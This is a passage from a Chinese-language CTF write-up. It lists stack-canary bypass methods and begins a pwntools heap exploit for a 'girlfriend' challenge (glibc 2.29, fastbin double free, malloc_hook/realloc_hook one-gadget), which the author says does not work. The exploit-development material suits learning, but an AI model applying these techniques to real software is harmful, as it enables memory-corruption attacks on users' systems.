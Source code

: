 ```python
r.interactive()
```



- 主要 bypass canary 的方式有 3 種
  - leak canary
  - 直接 edit return address
  - overwrite `__stack_chk_fail`



### girlfriend

```
// file
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e9b944287c56358a36334280ccb71ab0ab12ac3b, stripped

// checksec
[*] '/home/u1f383/tmp/pwn/pwn-girlfriend/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

glibc 2.29，tcache 已經加上 key 的保護。

可以 double free，但是沒辦法 edit，因此只能用在 fastbin，以下為 `malloc_hook` 寫 `realloc`，`realloc_hook` 寫 oneshot 版本的 exploit，但是因為條件不合沒辦法使用:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = process("./C", env={"LD_PRELOAD": "./libc-2.29.so"}, aslr=False)
r = process("./C", env={"LD_PRELOAD": "./libc-2.29.so"})
gdb.attach(r, """
dir /usr/src/glibc/glibc-2.27/:dir /usr/src/glibc/glibc-2.27/malloc/
b *exec_comm+1761
""")

"""
1.Add a girl's info
2.Show info
3.Edit info
4.Call that girl!
5.Exit lonely.
"""

def add(s, name, call):
    r.sendlineafter('Input your choice:', '1')
    r.sendlineafter('Please input the size of girl\'s name\n', str(s))
    r.sendafter('please inpute her name:\n', name)
    r.sendafter('please input her call:\n', call)

def show_info(idx):
    r.sendlineafter('Input your choice:', '2')
    r.sendlineafter('Please input the index:\n', str(idx))

```